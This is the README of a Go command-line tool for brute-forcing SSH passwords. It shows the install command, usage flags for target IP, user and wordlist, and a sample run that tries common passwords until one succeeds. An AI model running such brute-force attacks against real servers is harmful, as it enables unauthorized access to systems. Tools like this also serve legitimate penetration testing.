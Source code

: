 # sshgobrute

This is a program written in Golang for ssh brute force attacks, needs improvements but works well and is fast.

```sh
go get github.com/aldenso/sshgobrute
```

```sh
sshgobrute --help
```

```txt
Usage of sshgobrute:
  -file string
        indicate wordlist file to use (default "wordlistfile.txt")
  -ip string
        indicate the ip address to brute force (default "192.168.125.100")
  -port int
        indicate port to brute force (default 22)
  -timer duration
        set timeout to ssh dial response (ex:300ms), don't set this too low (default 200ms)
  -user string
        indicate user to brute force (default "root")
```

```sh
sshgobrute -user username -timer=200ms
```

```txt
file: wordlistfile.txt
ip: 192.168.125.100
port: 22
user: username
timer: 200ms
additional args: []
Failed: 123456 ---Failed: 12345 ---Failed: money ---Failed: password ---Failed:
mickey ---Failed: password1 ---Failed: 123456789 ---Failed: 12345678 ---Failed:
.
.
.
---Failed: randy ---Failed: reddog ---Failed: rebecca ---
+++ Pattern found: SuperSecret +++

Completed in 60.273904113 seconds
+++ FOUND +++
```

If the sshd is using "PasswordAuthentication no" it won't work.
